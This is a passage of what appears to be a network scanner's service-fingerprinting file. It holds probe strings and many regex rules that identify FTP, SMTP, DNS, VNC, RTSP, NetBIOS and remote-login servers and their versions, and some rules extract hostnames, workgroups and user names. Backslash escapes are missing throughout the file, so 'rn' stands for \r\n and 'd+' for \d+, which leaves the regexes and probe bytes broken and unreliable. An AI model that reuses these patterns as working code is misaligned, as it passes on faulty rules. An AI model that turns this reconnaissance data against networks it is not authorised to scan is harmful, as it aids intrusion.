match rtsp m|^RTSP/1.0 400 Bad RequestrnServer: DSS/([-.w]+) [(vd+)]-(w+)rn| v/DarwinStreamingServer/$1/$2 on $3/
match rtsp m|^RTSP/1.0 400 Bad RequestrnServer: QTSS/(d[d.]+ [vd+]-Win32)rnCseq: rn| v/Apple QuickTime Streaming Server/$1//
match rtsp m|^RTSP/1.0 400 Bad RequestrnServer: QTSS/(d[-.w]+) (Build/([d.]+); Platform/([-.w]+))rnCseq: rnConnection: Closernrn$| v/Apple QuickTime Streaming Server/$1 build $2/Platform: $3/
match rtsp m|^RTSP/1.0 505 Protocol Version Not SupportedrnDate: .*rnServer: WMServer/(d[-.w]+)rnrn$| v/Microsoft Windows Media Server/$1//
match slimp3 m|^GET %2f HTTP%2f1.0n$| v|SliMP3 MP3 player||http://www.slimdevices.com|
# spamd 2.20-1woody
match spamd m|^SPAMD/1.0 76 Bad header line: GET / HTTP/1.0rrn| v/SpamAssassin spamd///
# Windows XP 8/2003
match upnp m|^HTTP/1.1 400 Bad Requestrnrn$| v/Microsoft Windows UPnP///
match upnp m|^HTTP/1.0 ddd .*rnDate: .*rnConnection: closernServer: Microsoft-Windows-NT/(d[-.w]+) UPnP/(d[-.w]+) UPnP-Device-Host/(d[-.w]+)rn| v/Microsoft UPnP/$2/WindowsNT Vers: $1; UPnP Device Host: $3/
# UUCP 1.06.2 on Linux 2.4.X
# Taylor UUCP 1.06.2 on Slackware
match uucp m|^login: Password:$| v/Taylor uucpd///
# Veritas Netbackup client v.3.4
# Veritas Netbackup 4.5 Java listener
match netbackup m|^1000      2n43nunexpected message receivedn$| v/Veritas Netbackup java listener///
# Veritas Backup Exec 9.0 on Windows
match backupexec m|^x80$x01[x3F-x4B]...x05x02x03| v/Veritas Backup Exec/9.0//
# RealVNC 4.0b4
match vnc-http m|^HTTP/1.1 200 OKrnServer: RealVNC/(d[-.w]+)rn.*<APPLET CODE=vncviewer/VNCViewer.class ARCHIVE=vncviewer.jarrn        WIDTH=(d+) HEIGHT=(d+)>rn<PARAM name="port" value="(d+)">rn</APPLET>|s v/RealVNC/$1/Resolution $2x$3; VNC TCP port: $4/
# TightVNC Server version 1.2.2 HTTP on Windows 2000 SP2
match vnc-http m|^HTTP/1.0 200 OKnn<HTML><TITLE>TightVNC desktop [([-.w]+)]</TITLE>n<APPLET CODE=vncviewer.class ARCHIVE=vncviewer.jar WIDTH=(d+) HEIGHT=(d+)>n<param name=PORT value=(d+)>| v/TightVNC/1.2.2/Host: $1; Resolution $2x$3; VNC TCP port: $4/
# Tightvnc-1.2.3
match vnc-http m|^HTTP/1.0 404 Not foundnn<HEAD><TITLE>File Not Found</TITLE></HEAD>n<BODY><H1>File Not Found</H1></BODY>n$| v/TightVNC///
# Tightvnc 1.2.3
match vnc-http m|^HTTP/1.0 200 OKnn<HTML><TITLE>TightVNC desktop [([-.w]+)]</TITLE>n<APPLET CODE=VncViewer.class ARCHIVE=VncViewer.jar WIDTH=(d+) HEIGHT=(d+)>n<param name=PORT value=(d+)>| v/TightVNC/1.2.3/User: $1; Resolution $2x$3; VNC TCP port: $4/
# TightVNC 1.2.6
match vnc-http m|^HTTP/1.0 200 OKnn<HTML>n  <HEAD><TITLE>TightVNC desktop [[-.w]+]| v/TightVNC///
# TightVNC 1.2.8
match vnc-http m|^HTTP/1.0 200 OKrnrn<!-- n     index.vnc - default HTML page for TightVNC Java viewer applet, to ben     used with Xvnc. On any file ending in .vnc, the HTTP server embedded inn     Xvnc will substitute the following variables when preceded by a dollar:n     USER, DESKTOP, DISPLAY, APPLETWIDTH, APPLETHEIGHT, WIDTH, HEIGHT, PORT,n.*<TITLE>n(w+)'s X desktop.*<APPLET CODE=VncViewer.class ARCHIVE=VncViewer.jarn        WIDTH=(d+) HEIGHT=(d+)>n<param name=PORT value=(d+)>nn</APPLET>|s v/TightVNC/1.2.8/User: $1; Resolution $2x$3; VNC TCP port: $4/
# WinVNC 3.3.7 Build Mar 5 2003
match vnc-http m|^HTTP/1.0 200 OKrnrn<HTML><TITLE>VNC desktop [([-.w]+)]</TITLE>n<APPLET CODE=vncviewer.class ARCHIVE=vncviewer.jar WIDTH=(d+) HEIGHT=(d+)>n<param name=PORT value=(d+)| v/WinVNC/3.3.7/Server: $1; Resolution $2x$3; VNC TCP port: $4/
# WinVNC 3.3.3
# Tight VNC 1.5.2
match vnc-http m|^HTTP/1.0 200 OKnn<HTML><TITLE>VNC desktop [([-.w]+)]</TITLE>n<APPLET CODE=vncviewer.class ARCHIVE=vncviewer.jar WIDTH=(d+) HEIGHT=(d+)>n<param name=PORT value=(d+)></APPLET></HTML>n$| v/WinVNC//Server: $1; Resolution $2x$3; VNC TCP port: $4; May be standard or TightVNC/
# Ultr@VNC Win32 v1.0.9 - HTTP
match vnc-http m|^HTTP/1.0 200 OKnn<HTML>n  <HEAD><TITLE>Ultr@VNC Desktop [[-.w]+] ------- Ultr@VNC Home Page is  http://ultravnc.sf.net -------</TITLE></HEAD>n  <BODY>n  <SPAN style='position: absolute; top:0px;left:0px'>n    <APPLET CODE=VncViewer.class ARCHIVE=VncViewer.jar WIDTH=(d+) HEIGHT=(d+)>n      <PARAM NAME=PORT VALUE=(d+)>n      <PARAM NAME=ENCODING VALUE=Tight>n    </APPLET>  </SPAN>n  </BODY>n| v/Ultr@VNC//Resolution $1x$2; VNC TCP port: $3/
match xml-rpc m|^HTTP/1.0 400 Bad RequestrnServer: Apache XML-RPC (d[-.w ]+)rnrnMethod GET not implemented (try POST)$| v/Apache XML-RPC/$1//
match wsmserver m|^Language received from client: GETnSetlocale: Cn$| v/AIX Web-based System Manager///
match http m|^HTTP/1.0x20250x20Okrn.*rnrn.*<title>PowerMTA monitoring</title>|s v/Port25 PowerMTA web monitor///
# Kerio MailServer 5.7.9, 5.7.10
match http m|^HTTP/1.1 302 RedirectedrnConnection: closernContent-Length: 0rnLocation: /loginrnrn$| v/Kerio MailServer Webmail///
match http m|^HTTP/1.0x20250x20Okrn.*rnrn.*<title>PowerMTA monitoring</title>|s v/Port25 PowerMTA web monitor///
# Dell OpenManage Version 3.5.0 on MS Windows 2000 server / PowerEdge 6400/700
match http m|^HTTP/1.1 200 OKrnConnection: ClosernContent-Type: text/html; charset=UTF-8rnrn<html>rn    <head>rn        <script language="javascript">rntttttif| v/Dell Openmanage Server Administrator//PowerEdge/
# ASPI server (www.aspi.cz) on Solaris 6666/tcp
match aspi m|^HTTP/1.0 404 Not FoundrnDate: .*rnServer: ByllSoftware Gurda/([d.]+)rn| v/ASPI server/$1//
match sunscreen-adm m|^x01Tx03x01x1e;Error: incompatible with administration server (version (d[-.w ]*))ncx01$| v/SunScreen Remote Administration server/$1//
##############################NEXT PROBE##############################
Probe TCP HTTPOptions q|OPTIONS / HTTP/1.0rnrn|
ports 80,5232,6000
# IRIX 6.5.18f Distributed GL Daemon dgld
match dgld m|^OPTI$| v/IRIX Distributed GL Daemon///
# Webmaster Conferenceroom 1.8.9.1 IRC Server
match irc m|^:[-.w]+ 421 * OPTIONS :Unknown commandrn| v/Webmaster Conferenceroom IRC server///
#  cgi-httpd from shttpd-0.53 on FreeBSD
match http m|^HTTP/1.0 501 method not implementedrnServer: cgi-httpdrn| v/shttpd cgi-httpd///
match http m|^HTTP/1.1 ddd .*rnServer: WebSphere Application Server/(.+)rn| v/IBM WebSphere Application Server/$1//
match http m|^HTTP/1.1 ddd .*rnServer: Oracle HTTP Server Powered by Apachern|s v/Oracle HTTP Server Powered by Apache///
match http m|^HTTP/1.1 ddd .*rnServer: webfs/(d[-.w]+)rn| v/WebFS httpd/$1//
# HP OpenView ITO agent (probably version 7.25) on Windows, port 381
match http m|^HTTP/1.1 ddd .*rnserver: BBC d[-.w]+; com.hp.openview.Coda d[-.w]+rnrn| v/HP OpenView ITO agent - Coda///
# Zero One Technology ( http://www.01tech.com/ ) print servers embedded HTTP service
match http m|^HTTP/1.dx20200x20OKrnDate:x20.*rnMIME-version:x201.drnServer:x20ZOT-PS-(d+)/(d[-.w]+)rn| v/Zero One Technology print server model $1 HTTP server/$2//
##############################NEXT PROBE##############################
Probe TCP RTSPRequest q|OPTIONS / RTSP/1.0rnrn|
match rtsp m|^RTSP/1.0 200 OKrnCSeq: 0rnDate: .*rnServer: RealServer Version (d[-.w]+) (win32)rn| v/Realserver RTSP/$1/win32/
match rtsp m|^RTSP/1.0 200 OKrn.*Server: RealMedia EncoderServer Version (d[-.w]+) (win32)rn|s v/RealMedia EncoderServer/$1/win32/
match rtsp m|^RTSP/1.0 200 OKrn.*Server: RealServer Version (d[-.w]+) (([-.+w]+))rn|s v/RealOne Server/$1/platform: $2/
# APC PowerChute Business Edition Agent 6.1.0.0 on Windows 2000 Server
match powerchute m|^RTSP/1.0 400 Bad requestrnContent-type: text/htmlrnrn| v/APC PowerChute Agent///
match msdtc m|^ERRORn$|s v/Microsoft Distributed Transaction Coordinator//error/
# HP OpenView ITO agent (probably version 7.25) on Windows, port 383
match http m|^HTTP/1.1 ddd .*rnserver: BBC d[-.w]+; com.hp.openview.bbc.LLBserver d[-.w]+rnrn|s v/HP OpenView ITO agent - LLB server///
# This probe sends an RPC "Null command" to the port for service
# 100000 (portmapper).
# Some of these numbers are abitrary (such as ID).  I could consider
# adding an R escape in the string logic to provide a random byte.
# This would make IDS detection and such a bit harder.  On the other
# hand, that would make the response a little harder to recognize too.
##############################NEXT PROBE##############################
Probe TCP RPCCheck q|x80x28x72xFEx1Dx13x02x01x86xA0x01x97x7C|
ports 81,111,199,514,544,1433,4045,32750-32810,38978
# Microsoft SQLServer 6.5 on WinNT 4.0 SP6a
# Microsoft SQL Server 6.5 on WinNT 4.0
match ms-sql-s m|^x04x01C..xaa/x0fxa2x01x0e.. Login failedrnx14Microsoft SQL Serverxfdxfdx02$| v/Microsoft SQLServer/6.5//
match rpc m|^x80x18x72xFEx1Dx13x01x01|
match rpc m|^x80x20x72xFEx1Dx13x01x02|
# Vmware ESX 1.5.x Client Agent for Linux -- WAIT - I think this is erronous and is actually smux
# HP-UX 11 SNMP Unix Multiplexer (smux)
match smux m|^Ax01x02$| v/HP-UX smux//SNMP Unix Multiplexer/
# Network Appliance ONTAP 6.3.3 shell
match shell m|^x01Permission denied.n$| v/Network Appliance Ontap rshd///
# HP-UX 11 Kerberized 'rsh' (v5)
match kshell m|^x01remshd: connect: Connection refusedn$| v/HP-UX kerberized rsh///
# Tumbleweed SecureTransport 4.1.1 Transaction Manager Non-Secure Port on Solaris
match securetransport m|^xdexadxbexefx04xffx1fem.requestparserparser.InvError| v/Tumbleweed SecureTransport Transaction Manager Non-Secure Port///
##############################NEXT PROBE##############################
Probe UDP RPCCheck q|x72xFEx1Dx13x02x01x86xA0x01x97x7C|
ports 88,111,517,518,4045,32750-32810,38978
match rpc m|^x72xFEx1Dx13x01x01|
match rpc m|^x72xFEx1Dx13x01x02|
# OpenAFS 1.2.10 on Linux 2.4.22
match kerberos-sec m|^x04nx04code = 4: packet version number unknown| v/OpenAFS///
# talk-server-0.17 (linux), ports 517-518/udp
match talk m|^x01xfex05| v/Talk server///
# Mandrake Linux 9.2, xinetd 2.3.11 chargen
match chargen m|NOPQRSTUVWXYZ[\]^_`abcdefghijklm|
##############################NEXT PROBE##############################
Probe UDP DNSVersionBindReq q|x06x01x01x07versionx04bindx10x03|
ports 53,2967
# Allow 3-12 character version numbers
match domain m|x07versionx04bind.*[x03-x14]([-w._ ]{3,20})$|s v/ISC Bind/$1//
match domain m|x07versionx04bind.*[x03-x14]BIND ([-w._]{3,20})$|s v/ISC Bind/$1//
# Tinydns 1.05
match domain m|^x06x81x81x01x07versionx04bindx10x03$| v/TinyDNS///
# Microsoft DNS Windows 2000, SP4
match domain m|^x06x81x04x01x07versionx04bindx10x03$| v/Microsoft DNS///
# MyDNS 0.10.0 on Linux
match domain m|^x06x81x04$| v/MyDNS///
# Symantec Antivirus (rtvscan.exe)
match symantec-av m|^x06x01x01x10..........$| v/Symantec rtvscan antivirus///
# pdnsd 1.1.8b1
match domain m|^x06x81x84x01x07versionx04bindx10x03$| v/pdnsd///
##############################NEXT PROBE##############################
Probe TCP DNSVersionBindReq q|x1Ex06x01x01x07versionx04bindx10x03|
ports 53,512,513,543,544,1521,2105,2967,6543
match domain m|x07versionx04bind.*[x03-x14]([-w._ ]{3,20})$|s v/ISC Bind/$1//
match domain m|x07versionx04bind.*[x03-x14]BIND ([-w._]{3,20})$|s v/ISC Bind/$1//
# ISC Bind 9.1.3
match domain m|x07versionx04bindx10x03xc0x0cx10x03x01| v/ISC Bind///
# pdnsd 1.1.7a, 1.1.8b1
# http://www.phys.uu.nl/~rombouts/pdnsd.html
match domain m|^x1ex06x81x84x01x07versionx04bindx10x03$| v/pdnsd///
# Windows 2000 SP4
match domain m|^x1ex06x81x04x01x07versionx04bindx10x03$| v/Microsoft DNS///
# Novell 5.1 DNS Server
# Bind 4.9.7-REL on OpenBSD
match domain m|^x1ex06x81x82x01x07versionx04bindx10x03$| v/ISC Bind/4.X//
# PowerDNS 2.9.6 on FreeBSD
# PowerDNS 2.9.8 Linux
match domain m|^.x06x85x01x01x07versionx04bindx10x03xc0x0cx10x01x05..Served by POWERDNS (d[-.w]+) |s v/PowerDNS/$1//
# Symantec Enterprise Firewall 6.5.2 DNS proxy on Win2K
match domain m|^x1ex06x81x85x01x07versionx04bindx10x03$| v/Symantec Enterprise Firewall DNS proxy///
match exec m|^x01Login incorrect.n$|
# HP-UX B.11.00 A
match exec m|^x01rexecd: Login incorrect.n$| v/HP-UX rexecd///
match exec m|^x01rexecd: [-d]+ The login is not correct.n| v/AIX rexecd///
# Digital UNIX V4.0F login
match login m|^x01Permission denied: Error 0$| v/Digital UNIX login///
# RedHat 7.3 - Oracle TNS Listener Oracle 8.1.7
# Oracle 8.1.6.1.0 on Linux 2.2.X
match oracle-tns m|^x1cx04x01X| v/Oracle Listener///
# OpenBSD 2.3
# Solaris 9
match rlogin m|^x01rlogind: Permission denied.rn$|
# HP-UX 11 Kerberized rlogin
match klogin m|^x01rlogind: Login Incorrect.rn$| v/HP-UX kerberized rlogin///
# Solaris Kerberos authenticated login
match klogin m|^x01rlogind: Kerberos authentication failed.rn| v/Solaris kerberized rlogin///
# Solaris Kerberos authenticated remote shell
match kshell m|^x01rshd: Authentication failed: Bad sendauth version was sentn| v/Solaris kerberised rsh///
match ssc-agent m|^x1ex06t$| v/Novell Netware ssc-agent///
# http://www.apcupsd.com/ - apcupsd 3.8.5-1.3 on Linux 2.4.X
match apcnisd m|^x11Invalid commandn$| v/apcupsd///
match klogin m|^x01krlogind: Kerberos Authentication Failed.rn| v/AIX kerberized rlogin///
match kshell m|^x01rshd: [-d]+ The host name for your address is not known.n| v/AIX (kerberized?) rshd///
# 13724/tcp
match vnetd m|^1$| v/Veritas Netbackup Network Utility///
# DNS Server status request: http://www.crynwr.com/crynwr/rfc1035/rfc1035.html
##############################NEXT PROBE##############################
Probe UDP DNSStatusRequest q|x10|
ports 53,135
match domain m|^x90x04|
# This one below came from 2 tested Windows XP boxes
match msrpc m|^x04x06x10|
# DNS Server status request: http://www.crynwr.com/crynwr/rfc1035/rfc1035.html
##############################NEXT PROBE##############################
Probe TCP DNSStatusRequest q|x0Cx10|
ports 53,6050
match domain m|^x0Cx90x04|
# ARCserve Client Agent v4.0d for Solaris 2.x(Running on SunOS 5.8Generic_108528-13 sun4u)
match arcserve m|^s$| v/ARCserve Client Agent//backup software/
##############################NEXT PROBE##############################
Probe UDP NBTStat q|x80xf0x10x01x20x43x4bAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAx21x01|
ports 137
# NBT Response starts with a header:  
# The following fields are each 2 bytes: transaction ID; Flags; question count; answer count; name service count; additional record count
# Next comes 34 bytes NUL-terminaed name
# then comes 2 byte fields: question type; question clss
# 4 byte TTL
# 2 byte rdata length
# 1 byte number of names
### -- End of header
# Next comes the given number of nbnames - each are a 15 byte name (space padded) followed by a one byte service type, and then 16 BIT flags
### -- End of name table - finally comes the footer:
# 48 - Adapter address (eg MAC addy)
# 8 bit fields: major version; minor version
# 16 bit fields: duration; frmps received; frmps transmitted; iframe receive errors; transmit aborts
# 32 bit fields: trasnmitted; received
# The remaining fields are all 16-bits: iframe transmit errors; number of receive buffers; tl_timeouts; tl_timeouts; free ncbs; ncbs; 
#                                       max_ncbs; number of transmit buffers; max datagram; pending sessions; max sessions; packet_sessions
# I'm not convinced that these next 4 work on a very wide variety of
# machines.  I think most of the real matching comes in the next block.
match netbios-ns m|^x80xf0x84x01 CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!x01...(w{1,15}) *x04(w{1,15}) *x84w{1,15} *x03x04w{1,15} *x04w{1,15} *x1ex84w{1,15} *x1dx04x01x02__MSBROWSE__x02x01x84(w{1,15}) *x03|s v/Microsoft Windows XP netbios-ssn//host: $1 workgroup: $2 user: $3/
match netbios-ns m|^x80xf0x84x01 CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!x01...(w{1,15}) *x04(w{1,15}) *x84w{1,15} *x03x04w{1,15} *x04w{1,15} *x1ex84w{1,15} *x1dx04x01x02__MSBROWSE__x02x01x84|s v/Microsoft Windows XP netbios-ssn//host: $1 workgroup: $2/
match netbios-ns m|^x80xf0x84x01 CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!x01...(w{1,15}) *x04(w{1,15}) *x84w{1,15} *x03x04w{1,15} *x04(w{1,15}) *x03x04w{1,15} *x1ex84|s v/Microsoft Windows XP netbios-ssn//host: $1 workgroup: $2 user: $3/
match netbios-ns m|^x80xf0x84x01 CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!x01...(w{1,15}) *x04(w{1,15}) *x84w{1,15} *x03x04w{1,15} *x04w{1,15} *x1ex84|s v/Microsoft Windows XP netbios-ssn//host: $1 workgroup: $2/
# It would be really nice if we could get username and/or OS
# information from this.  But it is quite hard to parse out the proper
# information unambiguously, especially with just regular expressions.
# But it certainly would be nice to get more info:
#
# nbtstat
#
match netbios-ns m|^x80xf0x84x01 CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!x01..([w-]{1,15}) *D.*([w-]{1,15}) *xc4|s v/Microsoft Windows netbios-ssn//host: $1 workgroup: $2/
match netbios-ns m|^x80xf0x84x01 CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!x01..([w-]{1,15}) *D([w-]{1,15}) *xc4|s v/Microsoft Windows netbios-ssn//host: $1 workgroup: $2/
match netbios-ns m|^x80xf0x84x01 CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!x01...*([w-]{1,15}) *D.*([w-]{1,15}) *xc4|s v/Microsoft Windows netbios-ssn//host: $1 workgroup: $2/
match netbios-ns m|^x80xf0x84x01 CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!x01...*([w-]{1,15}) *D([w-]{1,15}) *xc4|s v/Microsoft Windows netbios-ssn//host: $1 workgroup: $2/
# Windows NT 4.0 SP6a
match netbios-ns m|^x80xf0x84x01 CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!x01...([w-]{1,15}).*4([w-]{1,15}) *x84|s v/Microsoft Windows NT netbios-ssn//host: $1 workgroup: $2/
#
# Samba has a version too
# nmbd version 2.2.7 on Linux 2.4.20
match netbios-ns m|^x80xf0x84x01 CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!x01...([w-]{1,15}).*x04([w-]{1,15}) *x1ex84|s v/Samba nmbd//host: $1 workgroup: $2/
##############################NEXT PROBE##############################
Probe UDP Help q|helprnrn|
ports 7,13,37
match chargen m|@ABCDEFGHIJKLMNOPQRSTUVWXYZ|
match echo m|^helprnrn$|
# Solaris 8, 9
match daytime m|^[A-Z][a-z]{2} [A-Z][a-z]{2} +d{1,2} +dd:dd:dd 20ddnr| v/Sun Solaris daytime///
# Mandrake Linux 9.2, xinetd daytime
match daytime m|^[0-3]d [A-Z][A-Z][A-Z] 20dd dd:dd:dd S+rn|
# Will last until 0xC5FFFFFF, in April 2005 - need to shift in advance.
match time m|^[xc0-xc5]...$|
# Solaris Internet Name Server (42/udp), see ien116.txt
match nameserver m|^helprnrnx20CKAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!x01| v/Solaris Internet Name Server//IEN 116/
match nameserver m|^x03x03x02$| v/Solaris Internet Name Server//IEN 116/
match nameserver m|^x06x01x01x03x03x02$| v/Solaris Internet Name Server//IEN 116/
##############################NEXT PROBE##############################
Probe TCP Help q|HELPrn|
ports 1,7,21,25,79,113,2401,2627
sslports 465
# CVSD (cvs chrooting service for pserver) cvsd 0.9.18
# CVS 1.11.5 pserver
match cvspserver m|^cvs [pserver aborted]: bad auth protocol start: HELPrnn$| v/cvs pserver///
# Concurrent Versions System (CVS) 1.10.7 (client/server)
match cvspserver m|^cvs-pserver [pserver aborted]: bad auth protocol start: HELPrnn| v/cvs pserver///
match echo m|^HELPrn$|
# ProFTPD 1.2.5
match ftp m|^220 [-.w]+ FTP server ready.rn214-The following commands are recognized (* =>'s unimplemented).rn USER    PASS    ACCT*   CWD     XCWD    CDUP    XCUP    SMNT*   rn QUIT    REIN*   PORT    PASV    TYPE    STRU    MODE    RETR    rn STOR    STOU*   APPE    ALLO*   REST    RNFR    RNTO    ABOR    rn DELE    MDTM    RMD     XRMD    MKD     XMKD    PWD     XPWD    rn SIZE    LIST    | v/ProFTPD/1.2.5//
# ProFTPD 1.2.6
match ftp m|^220 [-.w]+ FTP server ready.rn214-The following commands are recognized (* =>'s unimplemented).rn214-USER    PASS    ACCT*   CWD     XCWD    CDUP    XCUP    SMNT*   rn214-QUIT    REIN*   PORT    PASV    EPRT    EPSV    TYPE    STRU    rn214-MODE    RETR    STOR    STOU    APPE    ALLO*   REST    RNFR    rn214-RNTO    ABOR    DELE    MDTM    RMD     XRMD    MKD     XMKD| v/ProFTPD/1.2.6//
match ftp m|^220 ([-.w]+ )?FTP [sS]erver ready.?rn214-The following commands are recognized (* =>'s unimplemented).rn214-USER    PASS    ACCT*   CWD     XCWD    CDUP    XCUP    SMNT*   rn214-QUIT    REIN*   PORT    PASV    EPRT    EPSV    TYPE    STRU    rn214-MODE    RETR    STOR    STOU    APPE    ALLO*   REST    RNFR    rn214-RNTO    ABOR    DELE    MDTM    RMD     XRMD    MKD     XMKD| v/ProFTPD/1.2.6//
# ProFTPD 1.2.8
# proftpd 1.2.9 rc1
match ftp m@^220 .*rn214-The following commands are recognized (* =>'s unimplemented).rn(214-| )USER    PASS    ACCT*   CWD     XCWD    CDUP    XCUP    SMNT*   rn(214-| )QUIT    REIN*   PORT    PASV    TYPE    STRU    MODE    RETR    rn(214-| )STOR    STOU    APPE    ALLO*   REST    RNFR    RNTO    ABOR    rn(214-| )DELE    MDTM    RMD     XRMD    MKD     XMKD    PWD     XPWD    rn(214-| )SIZE@ v/ProFTPD/1.2.8 - 1.2.9//
# proftpd 1.2.9rc1 on linux 2.4.19
match ftp m|220 localhost FTP server readyrn214-The following commands are recognized (* =>'s unimplemented).rn214-USER    PASS    ACCT*   CWD     XCWD    CDUP    XCUP    SMNT*   rn214-QUIT    REIN*   PORT    PASV    TYPE    STRU    MODE    RETR    rn214-STOR    STOU    APPE    ALLO*   REST    RNFR    RNTO    ABOR    rn214-DELE| v/ProFTPD/1.2.9rc1//
# Solaris 8 ftpd
match ftp m|^220 [-.+w]+ FTP server (.*) ready.rn214-The following commands are recognized:rn   USER    EPRT    STRU    MAIL*   ALLO    CWD     STAT*   XRMD rn   PASS    LPRT    MODE    MSND*   REST*   XCWD    HELP    PWD rn   ACCT*   EPSV    RETR    MSOM*   RNFR    LIST    NOOP    XPWD rn   REIN*   LPSV    STOR    MSAM*   RNTO    NLST    MKD     CDUP rn| v/Sun Solaris ftpd///
# Phaser860 printer
match ftp m|^220 FTP server ready.rn214- The following commands are recognized (* =>'s unimplemented).rn   USER    PORT    STOR    MSAM*   RNTO*   NLST*   MKD*    CDUP*   EPLF*rn   PASS    PASV*   APPE*   MRSQ*   ABOR    SITE*   XMKD*   XCUP*rn   ACCT*   TYPE    MLFL*   MRCP*   DELE    SYST    RMD*    STOU rn   SMNT*   STRU    MAIL*   ALLO*   CWD*    STAT    XRMD*   SIZE*rn   REIN*   MODE    MSND*   REST*   XC| v/Phaser printer ftpd///
# bsd-ftpd 0.3.3 (port of OpenBSD ftp server) on Linux 2.4.20
match ftp m|^220 [-.w]+ FTP server ready.rn214- The following commands are recognized (* =>'s unimplemented).rn   USER    PORT    TYPE    MLFL*   MRCP*   DELE    SYST    RMD     STOU rn   PASS    LPRT    STRU    MAIL*   ALLO    CWD     STAT    XRMD    SIZE rn   ACCT*   EPRT    MODE    MSND*   REST    XCWD    HELP    PWD     MDTM rn   SMNT*   PASV    RETR    MSOM*   RNFR    LIST    NOOP    XPWD r| v/bsd-ftpd//available on Linux/
# Rhinosoft Serv-U FTP v.4.1 build 4.1.0.0 on Windows XP
match ftp m|^220 .*rn214- The following commands are recognized (* => unimplemented).rn   USER    PORT    RETR    ALLO    DELE    SITE    XMKD    CDUP    FEATrn   PASS    PASV    STOR    REST    CWD     STAT    RMD     XCUP    OPTSrn   ACCT    TYPE    APPE    RNFR    XCWD    HELP    XRMD    STOU    AUTHrn   REIN    STRU    SMNT    RNTO    LIST    NOOP    PWD     SIZE    PBSZrn| v/Rhinosoft Serv-U FTP///
# pure-ftpd 1.0.12 on Linux 2.4
match ftp m|^220[- ]FTP server ready.rn.*214 Pure-FTPd - http://pureftpd.org/?rn|s v/Pure-FTPd///
# BulletProof FTP server 2.15 on Windows XP
match ftp m|^220 .*rn530 Please login with USER and PASS first.rn$| v/BulletProof FTPd//Windows/
# SGI IRIX 6.5.18f ftpd
match ftp m|^220 [-.w]+ FTP server ready.rn214- The following commands are recognized (* =>'s unimplemented).rn   USER    PORT    STOR    MSAM*   RNTO    NLST    MKD     CDUP rn   PASS    PASV    APPE    MRSQ*   ABOR    SITE    XMKD    XCUP rn   ACCT*   TYPE    MLFL*   MRCP*   DELE    SYST    RMD     STOU rn   SMNT*   STRU    MAIL*   ALLO    CWD     STAT    XRMD    SIZE rn   REIN*   MODE    MSND*   REST    XCWD    HELP    PWD     MDTM rn   QUIT    RETR    MSOM*   RNFR    LIST    NOOP    XPWD rn214 Direct comments to | v/SGI IRIX ftpd///
match finger m|^iFinger v(d[-.w]+)nn| v/IcculusFinger/$1//
match ident m|^HELP : USERID : UNIX : trilluserrn$| v/Trillian identd///
# Internet Rex v2.29
match ident m|^d+, d+ : USERID : UNIX : [-.@w]+rn| v/Internet Rex identd///
# Symantec Enterprise Firewall 6.5.2 SMTP proxy on Windows 2000
match smtp m|^220 [-.+w]+ Generic SMTP handlerrn214 Help not supported by this implementationrn$| v/Symantec Enterprise Firewall smtp proxy///
# Lotus Notes Domino 6.1 smtp server on Win2K
match smtp m|^220 Welcome to [-.+w]+ ESMTP Server at .*rn214-Enter one of the following commands:rn214-HELO EHLO MAIL RCPT DATA RSET NOOP QUITrn214 HELP VRFY EXPN STARTTLS rn$| v/Lotus Notes Domino smtpd///
# Exim 3.33 on FreeBSD
match smtp m|^220 ESMTPrn214-Commands supported:rn214-    HELO EHLO MAIL RCPT DATA ETRNrn214     NOOP QUIT RSET HELP rn$| v/Exim smtpd/3.33//
# Exim 4.22 with SSL compiled in (STARTTLS) custom banner (runtime configuration option) and VRFY and
# EXPN also disabled in config file
match stmp m|^220 [-/.+w]+ ESMTPrn214-Commands supported:rn214 AUTH STARTTLS HELO EHLO MAIL RCPT DATA NOOP QUIT RSET HELPrn| v/Exim smtpd///
# Exim 4.20 on Astaro Security Linux gateway/proxy/firewall/router.
match smtp m|^220 [-.w]+ ESMTP ready.rn214-Commands supported:rn214 AUTH STARTTLS HELO EHLO MAIL RCPT DATA NOOP QUIT RSET HELPrn$| v/Exim smtpd/4.20//
# Exim 4.0 with exiscan patch and banner removed - Linux 2.1.19 - 2.2.25
match smtp m|^220 .*SMTP Ready. Expected Helo with a valid domain.rn214-Commands supported:rn214 AUTH HELO EHLO MAIL RCPT DATA NOOP QUIT RSET HELPrn| v/Exim smtpd/4.0//
match smtp m|^220 .* ESMTP ?rn214[- ]qmail home page: http://pobox.com/~djb/qmail.html| v/qmail smtpd///
match smtp m|^220 .* ESMTP ?rn214[- ]qmail home page: http://pobox.com/~djb/qmail.htmlrn214[- ]qmail-ldap patch home page: http://www.nrg4u.comrn| v/qmail-ldap smtpd///
match smtp m|^220 [-.w]+ ESMTPrn214 netqmail home page: http://qmail.org/netqmailrn| v/netqmail smtpd/1.04//
# VirusBuster MailShield for SMTP. Version 1.15.030 on Linux 2.4
match smtp m|^220 [-.w]+ SMTP version 1.00;rn214 We strongly advise you to study of the RFC821...rn$| v/VirusBuster MailShield for SMTP///
# Postfix 1.1.11.0-woody3
# Postfix 1.1.7-2
match smtp m|^220 [-.w]+ ESMTP Postfixrn$| v/Postfix smtpd/1.X//
# Postfix 1.1.12, 1.1.13, 2.0.9, 2.0.16
match smtp m|^220 .*rn502 Error: command not implementedrn$| v/Postfix smtpd///
# Courier ESMTP courier-0.42.0-1.7.3
match smtp m|^220 [-.w]+ ESMTPrn502 ESMTP command errorrn$| v/Courier smtpd///
match smtp m|^220 [-.w]+ ESMTP Sendmail ([^;]{3,50})| v/Sendmail smtpd/$1//
match smtp m|220.*214-2.0.0 This is sendmail version ([-+.w]+)rn214-2.0.0 Topics:rn214-2.0.0|s v/Sendmail smtpd/$1//
match smtp m|^220.* Sendmail (d[-.w]+) -- HELP not implementedrn|s v/Sendmail/$1//
match tcpmux m|^(sgi_[-.w]+rn([-.w]+rn)*)$| v/SGI IRIX tcpmux//Available services: $SUBST(1, "rn", ",")/
# Written in 1986.  More info at 
